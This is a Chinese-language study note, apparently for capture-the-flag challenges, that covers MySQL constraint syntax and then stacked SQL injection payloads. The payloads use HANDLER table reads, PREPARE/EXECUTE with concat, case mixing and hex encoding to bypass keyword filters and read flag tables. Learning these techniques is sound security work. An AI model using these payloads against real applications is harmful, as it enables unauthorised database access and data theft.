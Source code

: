 - **check**-限制列中值的范围。

```
alter table person add check (id>0);
```

- **default**-规定没有给列赋值时的默认值。

```
alter table person alter city set default 'chengdu' ;//mysql
alter table person add constraint ab_c default 'chengdu' for city;//SQL Server / MS Access
```

- **auto_increment**-自动赋值，默认从1开始。
- **foreign key**-保证一个表中的数据匹配另一个表中的值的参照完整性。

### handler句柄读表内容

参考https://blog.csdn.net/qq_44657899/article/details/103239145

把表打开做为一个句柄，然后利用句柄去读内容

```python
1'; handler `FlagHere` open as `a`; handler `a` read next;#
1';HANDLER FlagHere OPEN; HANDLER FlagHere READ FIRST; HANDLER FlagHere CLOSE;#
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```

### 利用 MySql 预处理

在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用MySql预处理语句配合concat拼接来执行sql语句拿flag。

1. PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(hello)供之后调用
2. EXECUTE：执行命令
3. DEALLOCATE PREPARE：释放命令
4. SET：用于设置变量(@a)
5. 这里还用大小写简单绕了一下其他过滤

```python
1';sEt @a=concat("sel","ect flag from flag_here");PRepare hello from @a;execute hello;#
```

### MySql 预处理配合十六进制绕过关键字

基本原理如下：

```python
mysql> select hex('show databases');
+------------------------------+
| hex('show databases;')       |
+------------------------------+
| 73686F7720646174616261736573 |
+------------------------------+
1 row in set (0.01 sec)

mysql> set @b=0x73686F7720646174616261736573;
Query OK, 0 rows affected (0.01 sec)

mysql> prepare test from @b;
Query OK, 0 rows affected (0.02 sec)
Statement prepared

mysql> execute test;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| challenges         |
| mysql              |
| performance_schema |
```